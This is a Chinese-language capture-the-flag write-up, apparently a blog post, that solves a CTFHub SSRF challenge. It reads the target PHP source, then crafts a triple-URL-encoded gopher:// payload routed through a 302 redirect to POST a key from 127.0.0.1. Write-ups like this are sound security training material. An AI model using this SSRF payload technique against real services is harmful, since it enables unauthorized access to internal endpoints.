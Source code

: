 ### POST请求
提示：这次是发一个HTTP POST请求.对了.ssrf是用php的curl实现的.并且会跟踪302跳转.我准备了一个302.php,可能对你有用哦

看到提示，访问302.php试试，得到了源码
![](https://img-blog.csdnimg.cn/20200928140644866.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
访问flag.php得到了一个key
![](https://img-blog.csdnimg.cn/20200928140809779.png#pic_center)
使用file伪协议可以读取源码，得到：
```php
<?php

error_reporting(0);

if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
    echo "Just View From 127.0.0.1";
    return;
}

$flag=getenv("CTFHUB");
$key = md5($flag);

if(isset($_POST["key"]) && $_POST["key"] == $key){
    echo $flag;
    exit;
}
?>

<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug: key=<?php echo $key;?>-->
</form>

```
~~看了wp回来~~，这题需要用gopher协议通过302.php的跳转去post key到flag.php，不过需要注意的是要从127.0.0.1发送数据。
首先构造一个最基本的post请求：
```shell
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 36   #特别注意此处的长度，长度不对也是不行的

key=2ddf50f048c2728241fc9c1a6a2d0eac  #key需要去通过127.0.0.1访问flag.php获取，也就是flag的MD5值。
```
首先进行一次url编码，将换行%0A改成%0D%0A
```cmd
POST%20%2Fflag.php%20HTTP%2F1.1%0D%0AHost%3A%20127.0.0.1%3A80%0D%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0D%0AContent-Length%3A%2036%0D%0A%0D%0Akey%3D2ddf50f048c2728241fc9c1a6a2d0eac
```
然后再进行2次URL编码，也就是说一共要进行三次URL编码，最后为：
```cmd
POST%252520%25252Fflag.php%252520HTTP%25252F1.1%25250D%25250AHost%25253A%252520127.0.0.1%25253A80%25250D%25250AContent-Type%25253A%252520application%25252Fx-www-form-urlencoded%25250D%25250AContent-Length%25253A%25252036%25250D%25250A%25250D%25250Akey%25253D2ddf50f048c2728241fc9c1a6a2d0eac
```
最后使用gopher协议请求即可
```cmd
?url=127.0.0.1/302.php?url=gopher://127.0.0.1:80/_POST%252520%25252Fflag.php%252520HTTP%25252F1.1%25250D%25250AHost%25253A%252520127.0.0.1%25253A80%25250D%25250AContent-Type%25253A%252520application%25252Fx-www-form-urlencoded%25250D%25250AContent-Length%25253A%25252036%25250D%25250A%25250D%25250Akey%25253D2ddf50f048c2728241fc9c1a6a2d0eac
```
![](https://img-blog.csdnimg.cn/2020092814310565.png#pic_center)
![](https://img-blog.csdnimg.cn/20200928143831366.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)